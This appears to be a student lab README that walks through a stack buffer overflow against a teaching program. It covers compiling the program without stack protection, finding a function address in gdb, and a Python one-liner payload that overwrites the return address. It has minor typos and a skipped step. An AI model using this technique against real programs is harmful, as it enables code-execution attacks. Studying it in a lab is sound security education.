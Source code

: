 # Exercise-Security Lab bof1


### Prepare for the lab environment:
The Dockerfile is used to build docker image with full required packages for Hands-On Assembly & Security labs. <br>
**How to use:**<br>
1. Install docker on your computer (host machine) <br>
2. Build the image "img4lab" that comprises all required packages for labs <br>
`$> docker build -t img4lab .` to build docker image <br>
3. Run docker container from previously built image <br> 
`$> docker run -it --privileged -v $HOME/Seclabs:/home/seed/seclabs img4lab` <br>
`Seclabs` is created inside student's home folder
### Visualize the initial attack idea
<img align="center" width=auto height=auto src="https://raw.githubusercontent.com/KITLoveWF/Exercise-Security/main/stackframe.png" />
### Conducting the attack
1. After creating the seclabs folder, continue to create a folder named bof in seclabs <br>
`$> mdkir bof` <br>
2. Open terminal<br>
`$> cd seclabs` <br>
`$> cd bof` <br>
3. Run code command. to open visual studio in terminal <br>
4. Run docker container from previously built image <br>
5. Run this command to create file bof1.out<br>
`$>gcc -g bof1.c -o bof1.out`<br>
6. Compile program with options to code execution on stack <br>
`$>gcc -g bof1.c -o bof1.out -fno-stack-protector -mpreferred-stack-boundary=2` <br>
7. Load vuln.out in gdb <br>
`$> gdb -q bof1.out` <br>
8. Get the secretFunc function address <br>
`$> disas secretFunc` <br>
<img align="center" width=auto height=auto src="https://raw.githubusercontent.com/KITLoveWF/Exercise-Security/main/secretFuncAddress.png" /> <br>
9. Once we have obtained the secretFunc function address: 0804846b, we must exit gdb <br>
`$> q`<br>
11. Overflow memory we need to fill 204 characters + 4 characters of secretFunc function address <br>
`$>echo $(python -c "print('a'*204+'\x6b\x84\x04\x08')") | ./bof1.out` <br>
<img align="center" width=auto height=auto src="https://raw.githubusercontent.com/KITLoveWF/Exercise-Security/main/result.png" /> <br>
12. Remove the missing arguments line, add the variables a,b,1,2,... to the end of bof1.out
`$> echo $(python -c "print('a'*204+'\x6b\x84\x04\x08')") | ./bof1.out 1` <br>
<img align="center" width=auto height=auto src="https://raw.githubusercontent.com/KITLoveWF/Exercise-Security/main/result1.png" /> <br>

   
